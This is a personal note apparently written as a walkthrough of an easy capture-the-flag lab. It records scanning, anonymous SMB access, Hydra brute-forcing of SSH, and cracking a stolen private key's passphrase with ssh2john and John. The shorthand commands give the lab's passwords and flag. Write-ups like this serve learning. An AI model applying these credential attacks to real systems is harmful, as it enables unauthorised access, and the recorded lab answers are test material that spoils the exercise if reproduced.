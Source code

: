 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Learn [[Pentesting]] .

# Recon
## Nmap

We can use [[Nmap]] to scan the machine IP :

```
   Openssh on 22/tcp open
```

# Enumeration
## Gobuster

We can use [[Gobuster]] to enumerate directories :

```
    /development
```
## Enum4linux

We can use [[Enum4linux]] to enumerate directories :

```
    smb access anonymous
```

We can see we have [[SMB]] anonymoues access so let's do it .
## SMBclient

```
    get staff.txt
```

## Hydra

We can use [[Hydra]] to enumerate directories :

```
    jan ssh >> armando
```

## SSH

Now we can access [[SSH]] protocol with the discovered credentials :

```
    ssh jan@IP >> id_rsa (kay/.ssh)
```

## ssh2john

We can use [[Ssh2john]] to save our key in new [[Hash]] file :

```
  ssh2john  id_rsa > hash
```

## John The Ripper

For the [[Password cracking]] we can use [[JohnTheRipper]] :

```
jhon hash --wordlist=/usr/share/wordlists/rockyou.txt
 
     beeswax  
chmod 600 id_rsa
```

## First Access
### SSH
Now we have access and we can find the [[Flag]] :

```
kay >> pass.bak >> flag: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```